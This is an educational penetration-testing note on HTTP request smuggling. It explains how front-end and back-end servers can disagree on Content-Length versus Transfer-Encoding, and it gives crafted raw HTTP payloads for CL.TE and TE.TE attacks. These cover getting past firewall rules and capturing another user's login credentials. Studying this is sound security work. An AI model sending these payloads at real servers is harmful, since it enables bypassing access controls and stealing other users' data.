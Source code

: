 # HTTP

### How can a HTTP Request Smuggling vulnerability occur?

> Refer to the [notes](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/general-web-knowledge/http-headers/request-smuggling) on the `Content-Length` and `Transfer-Encoding` headers for more information

The vulnerability arises when the servers involved in the request interprets the HTTP request boundaries differently. This can happen in the following scenarios;

1. Both the `Content-Length` and `Transfer-Encoding` headers are present
2. The front-end server prioritizes `Content-Length` , while the back-end prioritizes `Transfer-Encoding` , and vice versa
   * Indicated as _**CL.TE**_ and _**TE.CL**_ respectively&#x20;

Sometimes, _**TE.TE**_ can happen too, when both the front-end and back-end servers uses the `Transfer-Encoding` header. In this case, a certain technique can be used to workaround this.

For the attack to work, a duplicate `Transfer-Encoding`  header can be added with a malformed and invalid value such as:

```http
POST / HTTP/1.1
...
Transfer-Encoding chunked
Transfer-Encoding random-invalid-value

xx
...
0
```

### Basic example of an attack

Let's assume that the front-end server prioritizes  `Content-Length` while the back-end prioritizes `Transfer-Encoding` . A HTTP request can be crafted to exploit the HTTP Request Smuggling vulnerability:

```http
POST / HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 140
Transfer-Encoding: chunked

0

POST /smuggled-request HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

name=test&query=test
```

#### Front-end server

In the following payload, the front-end server will first interpret the boundaries based on the `Content-Length` header (value of **140**). This will interpret the entire request up to the end of the data body as a single request, and forward it to the back-end server.

#### Back-end server

The back-end server will interpret the boundaries based on the `Transfer-Encoding` header, and  interpret the chunk size to be 0, and treat the first request to be:

```http
POST / HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 140
Transfer-Encoding: chunked

0 
```

Consequently, it will treat the second request as:

```http
POST /smuggled-request HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

name=test&query=test
```

### Variants of the attack

#### 1. Bypass firewalls

Given that the second request should usually be blocked by the firewall running on the front-end server, by exploiting the HTTP Request Smuggling vulnerability, we have effectively bypassed the defense. Furthermore, the second request may not be logged at all by the servers.

#### 2. Appending legitimate user request to the smuggled body

Assume the same front and back-end server configurations. Suppose there exists a feedback page that sends a POST request:

```http
POST /feedback HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: xx

name=name&query=query
```

We can craft the payload:

```http
POST / HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 140
Transfer-Encoding: chunked

0

POST /feedback HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 600

name=name&query=query
```

Notice that the `Content-Length` value for the smuggled request is **600**, which is way larger than the content body that is supplied. In this case, the back-end server will pause and wait for the additional data to fill up the size of **600**, before processing the request. Consequently, legitimate user requests may be appended to the smuggle request.

Suppose we have found another separate vulnerability that allows us to view the requests log that we have sent. Since the legitimate user's request have been appended to our smuggled request, we can now view the contents of their request, which might contain sensitive information.

Eg.

```http
POST /feedback HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 600

name=name&query=queryPOST /login HTTP/1.1
Host: ...
...
user=user&password=pass1234
```
